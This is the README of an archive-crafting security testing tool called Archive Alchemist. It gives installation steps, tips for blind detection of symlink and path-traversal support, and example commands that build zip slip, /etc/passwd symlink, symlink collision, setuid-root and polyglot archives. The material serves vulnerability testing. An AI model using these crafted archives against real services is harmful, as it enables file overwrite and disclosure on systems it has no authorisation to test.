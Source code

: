 # Archive Alchemist

Archive Alchemist is a tool for creating specially crafted archives to test extraction vulnerabilities.
![](art.png)
<!-- ASCII art by jgs from https://ascii.co.uk/art/science -->

## Features

- Create ZIP and TAR archives with malicious patterns
- Support for path traversal attacks
- Support for symlinks and hardlinks
- Ability to set special permission bits (setuid, setgid, sticky bit)
- Fine-grained control over file attributes (mode, uid, gid, mtime)
- Multiple manipulation commands: add, replace, append, modify
- Multiple helper commands: extract, list, read
- Create polyglot files (prepend archive with data + adjust headers)

## Installation

```bash
# Clone the repository
git clone https://github.com/avlidienbrunn/archivealchemist.git
cd archivealchemist

# Make the script executable
chmod +x archive-alchemist.py

# Optional: create a symlink to use globally
sudo ln -s $(pwd)/archive-alchemist.py /usr/local/bin/archive-alchemist
```

## Usage

See [Documentation](docs/index.md)


### Tips

#### Suggested working directory setup

The most convenient way to test multiple payloads/tests for an archive is to use a local working directory and the `replace` command with `--content-directory` flag to "sync" the local directory to the archive:

1. Extract into working directory: `./archive-alchemist.py target.zip extract -o workingdir/`
2. Make changes to file(s) in `workingdir/`
3. Build archive from working directory: `./archive-alchemist.py target_poc.zip replace --content-directory workingdir/ ""`
4. Test using `target_poc.zip`
5. GOTO #2

#### Blind detect symlink support

If you know that the target service uses `bla/file.json`, you can:
1. Extract into working directory: `./archive-alchemist.py target.zip extract -o workingdir/`
2. Copy `workingdir/bla/file.json` to `workingdir/bla/file2.json`
3. Build archive from working directory: `./archive-alchemist.py target_poc.zip add --content-directory workingdir/ ""`
4. Change `bla/file.json` to a symlink to `bla/file2.json`: `./archive-alchemist.py target_poc.zip replace --symlink file2.json "bla/file.json"`
5. Test using `target_poc.zip`. If it works normally, the target likely supports symlinks!

#### Blind detect path traversal support

If you know that the target service uses `bla/file.json`, you can:
1. Extract into working directory: `./archive-alchemist.py target.zip extract -o workingdir/`
2. Copy `workingdir/bla/file.json` to `workingdir/bla/blu/file.json`
3. Build archive from working directory: `./archive-alchemist.py target_poc.zip add --content-directory workingdir/ ""`
4. Add `bla/blu/../file.json` to the archive: `./archive-alchemist.py target_poc.zip add --content-file "workingdir/bla/blu/file.json" "bla/blu/../file.json"`
5. Test using `target_poc.zip`. If it works normally, the target likely supports path traversal! (Although there might be additional checks to make sure that you dont traverse outside of the target directory)

#### Blind detect absolute path support

I havent really come up with a good generic way to test for this, but you could try changing `some/file.txt` to `/proc/self/cwd/some/file.txt`, and see if that works. Relying on proc filesystem and hoping that its cwd is the same as the extraction directory is not ideal, but its something.

### Examples for Security Testing

#### Zip Slip Attack

```bash
# Create a zip with path traversal payload
./archive-alchemist.py zipslip.zip add "../../../tmp/evil.txt" --content "I escaped the extraction directory!"
```

#### Symlink Attack

```bash
# Create a tar with a symlink pointing to a sensitive file
./archive-alchemist.py symlink_attack.tar -t tar add .bashrc --symlink "/etc/passwd"
```

#### File Collisions with Symlinks

```bash
# First add a symlink
./archive-alchemist.py collision.tar -t tar add config.txt --symlink "/tmp/target.txt"

# Then add a regular file with the same name (will be extracted last)
./archive-alchemist.py collision.tar -t tar add config.txt --content "Overwrite after symlink is created"
```

#### Setuid Executable

```bash
# Create a setuid executable
./archive-alchemist.py setuid_attack.tar -t tar add exploit --content "#!/bin/sh\nwhoami" --mode 0755 --setuid --uid 0
```

#### Polyglot File

```bash
# Create a file that's a valid ZIP and starts with GIF magic bytes
./archive-alchemist.py polyglot.gif add payload.txt --content "hello there"
./archive-alchemist.py polyglot.gif polyglot --content "GIF89aI am totally a GIF file"
```

#### Unicode Path vs file name confusion

```bash
# Create a zip that has file.txt in local file header and notfile.txt in Unicode Path extra field
./archive-alchemist.py weird.zip add file.txt --content "hello there" --unicodepath notfile.txt
```

